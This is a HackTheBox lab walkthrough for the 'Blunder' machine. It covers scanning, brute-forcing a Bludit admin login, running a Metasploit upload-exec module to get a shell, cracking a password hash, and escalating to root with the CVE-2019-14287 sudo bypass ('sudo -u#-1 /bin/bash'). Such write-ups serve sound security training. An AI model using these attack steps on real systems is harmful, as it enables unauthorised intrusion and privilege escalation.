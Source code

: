 ```yaml
---
layout: post
title: "Blunder"
date: 2022-03-06
categories: [HackTheBox, Easy-HTB]
tags: [Metasploit, Bludit, hash-cracking , brute-force, privesc, sudo-security-bypass]
image: ../../assets/img/posts/Blunder.png

---
```


|**Machine**|[Blunder](https://app.hackthebox.com/machines/254)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[egotisticalSW](https://app.hackthebox.com/users/94858)|

---

We'll start with connecting to HTB network by making connection with .ovpn file and then spin up machine. This box's IP is **10.10.10.191**.

Let's get started with nmap scan,

```bash
sudo nmap -A -T4 -p- 10.10.10.191
```

![image](https://user-images.githubusercontent.com/67465230/156899552-8f7e08e4-7ad7-4ab5-ad2d-7839be202d40.png)

nmap came back with it's result and port 80 (HTTP) is open.

Let's start with brute forcing directories with gobuster,

```bash
gobuster dir -u http://10.10.10.191 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x txt,php 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/156899553-5f517777-8a3f-449a-9124-602506816973.png)

after visiting each one of them, the one i found interesting was **/todo.txt** path

![image](https://user-images.githubusercontent.com/67465230/156899560-03e47231-0de4-4e01-9058-e7d1041e4678.png)

we got that username is **fergus**.

let's visit http://10.10.10.191/admin/,

![image](https://user-images.githubusercontent.com/67465230/156899568-f46b57b1-fb75-4c89-ae54-2ae5fececbb8.png)

now we have find login page of admin page, now we'll make our way to log into this admin page. now we'll fire up burpsuite and intercept the request

![image](https://user-images.githubusercontent.com/67465230/156899573-55382f64-0168-4e0a-84c2-0a71af20596a.png)

burp will intercept request,

![image](https://user-images.githubusercontent.com/67465230/156899579-ca5df997-af7f-40e0-9934-460763f98dcb.png)

when request is intercepted by burp suite then send request to repeater

just because this webpage contains CSRF token, then we'll do bruteforcing CSRF token

![image](https://user-images.githubusercontent.com/67465230/156899585-e1c23460-8c3a-46e6-956d-2c76c7f08230.png)

using this python script we can do brute forcing

![image](https://user-images.githubusercontent.com/67465230/156899596-01e3dbaa-7c71-493e-bf3b-b38512d39ae0.png)

and save the file with bruteforce.py 

now we'll use **CEWL** ruby tool to spider web page for list of words used for bruteforcing and it'll return list of names

![image](https://user-images.githubusercontent.com/67465230/156899601-1a8edc69-8c45-43bf-aed1-f4a54b71cfbf.png)

here **-w** is used for writing output to file, **-d** used for depth to spider to(default 2), **-m** used for minimum word length(*default 3*)

now type command to start bruteforce on login page.

```bash
sudo python3 bruteforce.py
```

![image](https://user-images.githubusercontent.com/67465230/156899610-a564ed91-7a98-434a-b8af-0c86aa1d6a60.png)

so here is the login username and password for admin page and we've successfully login to admin page using credentials. now we'' search for bludit exploit

![image](https://user-images.githubusercontent.com/67465230/156899612-20f5d925-dea2-4c7c-a6de-fcf0504b6829.png)

now it's time to fire up msfconsole and search bludit

![image](https://user-images.githubusercontent.com/67465230/156899619-58c682a5-a411-4336-991f-a83b2f3c9562.png)

now type: `use exploit/linux/http/bludit_upload_images_exec`  and then type `info`

![image](https://user-images.githubusercontent.com/67465230/156899621-1a9b9757-dec7-41fb-b3cc-f76405b21782.png)

then set options to:
- **set rhosts 10.10.10.19**
- **set lhost tun0**
- **set BLUDITuSER fergus**
- **set BLUDITPASS RolandDeschain**

![image](https://user-images.githubusercontent.com/67465230/156899624-d2b0c473-5ab0-4951-aef1-1440c0651308.png)

now type exploit to start exploitation process into remote machine.

![image](https://user-images.githubusercontent.com/67465230/156899628-12059d9e-8a1b-459c-a37e-78808bcb8b04.png)

here we can see that our session is started, but we'll enter in shell mode to further process.

Now we'll find home directory for user.txt flag

![image](https://user-images.githubusercontent.com/67465230/156899651-6d2ebd96-5139-4fb0-8bff-6c0ab963c832.png)

we can improve shell by typing this command

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

![image](https://user-images.githubusercontent.com/67465230/156899655-3f2378e4-5231-40b9-a687-43b1d7c65c1f.png)

now we'll look for user and root flag.

![image](https://user-images.githubusercontent.com/67465230/156899660-271f0dab-54f7-4a17-b606-bc119739e43e.png)

here we've tried to gain output of user flag but access is denied, so now we've to elevate our privileges to hugo user. So we'll find users.php file print all its content on screen

![image](https://user-images.githubusercontent.com/67465230/156899668-02af628d-369e-4939-8d29-af17db296866.png)

here is hashed password and grab it and crack it online(google)

![image](https://user-images.githubusercontent.com/67465230/156899670-8b24135f-2648-46fd-82c4-f66e6de71ace.png)

we got the cracked password from crackstation.

now switching to hugo user, 

```bash
su hugo
```

![image](https://user-images.githubusercontent.com/67465230/156899676-eaa48b8d-a71a-4289-a70b-6e379e6c9ca6.png)

For the privilege escalation, let's search for binaries which we can run using sudo,

```bash
sudo -l
```

![image](https://user-images.githubusercontent.com/67465230/156899688-b0b568e9-f05c-4d65-8963-10e379c6ef77.png)

we can see that we can run **/bin/bash** with sudo command,

```bash
sudo -u#-1 /bin/bash
``` 

![image](https://user-images.githubusercontent.com/67465230/156899691-13439c2c-9120-4a8d-805f-2f6c64e747d1.png)

>CVE-2019-14287: Joe Vennix found that if you specify a UID of -1 (or its unsigned equivalent: 4294967295), Sudo would incorrectly read this as being 0 (i.e. root). This means that by specifying a UID of -1 or 4294967295, you can execute a command as root, despite being explicitly prevented from doing so.

and we are root user. 